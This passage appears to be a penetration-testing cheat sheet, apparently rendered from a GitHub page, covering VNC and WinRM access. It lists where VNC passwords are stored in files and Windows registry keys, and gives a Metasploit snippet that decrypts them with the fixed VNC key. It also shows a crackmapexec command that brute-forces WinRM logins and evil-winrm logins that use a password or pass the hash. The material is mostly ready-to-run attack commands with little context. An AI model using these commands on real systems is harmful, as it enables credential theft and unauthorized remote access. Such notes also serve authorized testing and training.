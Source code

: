 ### Connect

```
vncviewer <IP>:<PORT>
```

### Found VNC password

#### Linux

```
Default password is stored in: ~/.vnc/passwd
```

#### Windows

```
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

# TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
```

### Decrypt VNC password

```
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
```

------

## WINRM - 5985 - 5986

### Brute force

```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

### Connecting

```
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```
